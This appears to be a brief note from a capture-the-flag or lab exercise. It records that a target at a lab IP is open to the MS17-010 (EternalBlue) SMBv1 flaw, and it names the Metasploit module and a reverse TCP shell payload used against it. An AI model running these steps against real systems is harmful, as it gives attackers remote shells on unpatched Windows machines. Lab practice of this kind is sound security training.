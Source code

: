 # IP 10.10.153.167

# Vuln
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


IDs:  CVE:CVE-2017-0143

## Metasploit
exploit/windows/smb/ms17_010_eternalblue

### payload
set payload windows/x64/shell/reverse_tcp
